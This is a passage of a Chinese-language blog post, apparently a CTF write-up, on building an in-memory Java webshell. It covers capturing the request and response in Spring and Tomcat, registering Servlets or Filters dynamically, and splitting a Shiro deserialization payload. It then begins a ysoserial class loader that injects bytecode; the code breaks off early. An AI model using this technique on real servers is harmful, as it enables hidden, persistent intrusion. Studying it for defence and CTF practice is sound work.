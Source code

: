 

生成反序列化数据执行输出

![1](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/webshell/3.png)



### 实现

实现内存Webshell需要以下两个步骤：

- 获取Request和Response
- 动态注册Servlet/Filter/Listener

我们以spring框架为目标，获取request和response。以tomcat为目标，包含很多坑点，例如：

1. 反射修改ApplicationDispatcher.WRAP_SAME_OBJECT，让代码逻辑走到if条件里面
2. 初始化lastServicedRequest和lastServicedResponse两个变量，默认为null
3. 从lastServicedResponse中获取当前请求response，并且回显内容



**使用RequestContextHolder.getRequestAttributes()的注意事项**

注意事项：

1. 不要在请求方法里另起一个子线程调用该方法；
2. 在请求周期中，尽可能不要传递Request实例给多线程使用，因为子线程可能在Request生命周期结束销毁后再使用Request时获取不了参数，否则必须同步线程     让其在生命周期结束前调用；

在Spring Boot中，如果我们要获取当前Request实例，可以通过以下这个方法获取。



`HttpServletRequest request = ((ServletRequestAttributes) RequestContextHolder.getRequestAttributes()).getRequest();`



同样的使用了Spring框架的都可通过如上方法获取，这里我们结合之前CTF题目 login me again的漏洞环境进行实现内存webshell。

需要注意的是，漏洞环境为shiro。我们将攻击payload分为两部分，避免header的长度超出限制。请求参数classData为需要注入的代码，实现方式为defineClass，通过ClassLoader执行字节码

```java
package ysoserial;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            java.lang.reflect.Field r=request.getClass().getDeclaredField("request");
            r.setAccessible(true);
```